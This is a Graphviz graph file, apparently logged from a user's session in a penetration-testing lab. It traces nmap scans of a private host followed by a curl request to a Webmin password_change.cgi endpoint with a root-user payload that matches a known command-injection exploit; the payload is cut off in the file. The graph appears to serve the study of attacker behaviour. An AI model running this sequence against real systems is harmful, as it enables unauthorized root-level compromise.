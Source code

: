 // creating graph for user: 79
digraph {
	node [shape=box]
	1 [label="nmap -sv 172.18.1.5 A0 M0 A1 "]
	2 [label="nmap -sV 172.18.1.5 A1 M1 "]
	4 [label="curl 172.18.1.5:10000/password_change.cgi -d 'user=root&pam=&expired=2 A4 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 4 [constraint=false]
	rankdir=LR
}
